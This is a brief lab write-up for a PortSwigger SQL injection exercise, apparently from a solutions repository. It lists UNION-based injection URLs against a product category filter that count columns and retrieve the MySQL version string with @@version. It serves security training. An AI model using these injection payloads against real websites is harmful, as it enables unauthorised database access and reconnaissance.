 
# 4 - SQL injection attack, querying the database type and version on MySQL and Microsoft

This lab contains a SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.

To solve the lab, display the database version string. (Make the database retrieve the string: '8.0.32-0ubuntu0.20.04.2')

---------------------------------------------

Reference: https://portswigger.net/web-security/sql-injection/cheat-sheet

---------------------------------------------
/filter?category=Gifts'+order+by+1--+
/filter?category=Gifts'+union+select NULL,NULL--+
/filter?category=Gifts'+union+select 'A',NULL--+
/filter?category=Gifts'+union+select @@version,NULL--+

``` 

![img](images/SQL%20injection%20attack,%20querying%20the%20database%20type%20and%20version%20on%20MySQL%20and%20Microsoft/1.png)
